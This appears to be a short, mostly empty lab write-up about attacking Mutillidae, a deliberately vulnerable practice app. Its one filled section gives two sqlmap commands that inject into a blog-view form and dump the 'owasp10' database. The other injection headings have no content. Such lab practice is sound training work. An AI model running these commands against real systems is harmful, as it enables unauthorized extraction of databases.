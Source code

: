 ### SQLMAP Practice Target

#### View Someones Blog

starting from scratch, i first ran sqlmap with `sqlmap -u "http://MACHINE_IP/mutillidae/index.php?page=view-someones-blog.php" --cookie "PHPSESSID=fdbcb501dbfb4c396f0a7315135ae707" --dbms mysql --method POST --data "author=john&view-someones-blog-php-submit-button=View+Blog+Entries" --current-db` to retrieve info about the current database and then i ran `sqlmap -u "http://MACHINE_IP/mutillidae/index.php?page=view-someones-blog.php" --cookie "PHPSESSID=fdbcb501dbfb4c396f0a7315135ae707" --dbms mysql --method POST --data "author=john&view-someones-blog-php-submit-button=View+Blog+Entries" -D owasp10 --all` to fetch all information possible

#### User Info

### HTML Injection (HTMLi)

#### Add to your blog

### HTMLi via HTTP Headers

#### HTTP Response Splitting (Hint: Difficult)

### HTMLi Via DOM Injection

#### HTML5 Storage

### HTMLi Via Cookie Injection

#### Capture Data Page

### Command Injection

#### DNS Lookup

### JavaScript Injection

#### Those "Back" Buttons

#### Password Generator

### HTTP Parameter Pollution

#### Poll Question

### Cascading Style Injection

#### Set Background Color

### JavaScript Object Notation (JSON) Injection
